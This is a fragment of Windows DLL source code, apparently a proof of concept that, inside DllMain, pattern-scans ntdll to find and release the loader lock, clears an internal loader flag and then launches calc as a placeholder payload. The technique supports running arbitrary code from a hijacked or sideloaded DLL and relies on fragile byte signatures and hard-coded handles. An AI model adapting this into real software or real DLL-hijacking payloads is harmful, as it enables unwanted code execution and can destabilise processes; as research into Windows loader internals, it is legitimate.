    {
    case DLL_PROCESS_ATTACH: {
        // Sleep(5000);
        pLdrUnlockLoaderLock LdrUnlockLoaderLock = (pLdrUnlockLoaderLock)GetProcAddress(ntDll, "LdrUnlockLoaderLock");
        PUCHAR tem = (PUCHAR)LdrUnlockLoaderLock;
        pLdrpReleaseLoaderLock LdrpReleaseLoaderLock;
        for (int i = 0; i < 0x100; i++) {
            if (tem[i] == 0xe8 && tem[i + 5] == 0xEB && tem[i + 7] == 0x45&& tem[i + 8] == 0x33&& tem[i + 9] == 0xc0) {
                LONG offset = *(PLONG)(tem+i+1);
                // std::stringstream ss;
                // ss << std::hex << offset;
                // std::string str = ss.str();
                // MessageBoxA(0, str.c_str(), 0, 0);
                LdrpReleaseLoaderLock = (pLdrpReleaseLoaderLock)(tem+i+5+ offset);
                break;
            }
        }
        // std::stringstream ss;
        // ss << LdrpReleaseLoaderLock;
        // std::string str = ss.str();
        // MessageBoxA(0, str.c_str(), 0, 0);
        
        
        LdrpReleaseLoaderLock(0, 0, 0);
        
        PUCHAR RtlExitUserProcess = (PUCHAR)GetProcAddress(ntDll, "RtlExitUserProcess");
        RtlExitUserProcess += 0x6000;
        PVOID LdrpWorkInProgress = NULL;
        for (int i = 0; i < 0x3000; i++) {
            if (RtlExitUserProcess[i] == 0x83 && RtlExitUserProcess[i + 7] == 0x48 && RtlExitUserProcess[i + 14] == 0xe8
                && RtlExitUserProcess[i + 19] == 0x48 && RtlExitUserProcess[i + 26] == 0x33 
                && RtlExitUserProcess[i + 27] == 0xD2 && RtlExitUserProcess[i + 28] == 0x48) {

                LONG offset = *(PLONG)(RtlExitUserProcess + i + 2);
                LdrpWorkInProgress = (RtlExitUserProcess + i + 7 + offset);
                break;
            }
        }
        SetEvent((HANDLE)0x40);
        SetEvent((HANDLE)0x4);
        *(PBOOLEAN)LdrpWorkInProgress = FALSE;

        ShellExecute(NULL, L"open", L"calc", NULL, NULL, SW_SHOW);
        break;
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
